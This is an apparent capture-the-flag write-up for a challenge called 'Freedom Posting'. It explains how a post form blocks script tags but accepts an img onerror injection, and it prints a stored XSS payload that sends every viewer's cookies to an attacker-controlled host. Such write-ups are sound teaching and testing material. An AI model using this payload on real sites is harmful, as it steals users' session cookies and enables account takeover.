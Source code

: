# Write up for Freedom Posting.

## Overview

For this challenge, we are doing some Cross Site Scripting (XSS) to get another user's cookies.

### Flag 1

We have a social media site where we can make a post with a title and a body of text. Experimenting, we find that it is vulnerable to html injection, 
but script tags and javascript are somehow escaped, even when we use escape sequences like ```<&#115;cript>...<&#47;&#115;cript>``` to avoid detection.

However, it is vulnerable to image onerror javascript injection. So, we can create a javascript payload that makes a web request to a website we control
(such as a service like beeceptor.com) that includes the user's cookies in the path of the url. We then put that javascript in an ```<img>```
tag as the onerror and have the source be something invalid (like ```0```). This will cause it to always execute the onerror code, and get us the cookies of 
any user that looks at this post. Such an injection is below.

```<img src=0 onerror=fetch("http://yourwebsite.com/"+document.cookie)>```

This gets us the flag.





